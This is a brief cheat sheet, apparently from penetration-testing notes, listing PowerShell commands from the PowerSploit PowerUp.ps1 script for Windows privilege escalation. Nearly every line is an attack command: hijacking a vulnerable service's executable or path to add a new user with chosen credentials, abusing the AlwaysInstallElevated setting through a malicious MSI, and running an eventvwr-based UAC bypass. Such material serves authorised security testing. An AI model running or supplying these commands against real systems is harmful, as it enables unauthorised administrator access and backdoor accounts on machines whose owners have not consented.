 ### Source
https://raw.githubusercontent.com/AdrianVollmer/PowerSploit/master/Privesc/PowerUp.ps1  

### Run all checks and prevent script from terminating if one test fail
```
Invoke-PrivescAudit -ErrorAction SilentlyContinue -Format html
```

### Replace vulnerable service exe and add new user (improper write permissions on file)
```
Write-ServiceEXE -ServiceName <name> -UserName <newUser> -Password <newPassword> -Verbose
```

### Replace vulnerable service path and add new user (stop service, rewrite path, start service)
```
Invoke-ServiceUserAdd -ServiceName <name> -UserName <newUser> -Password <newPassword> -Verbose
```

### Use AlwaysInstallElevated key and add new user (need a GUI)
```
Write-UserAddMSI -Verbose
```

### Test for UAC bypass
```
Invoke-EventVwrBypass -Command "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe mkdir C:\testUAC"
```

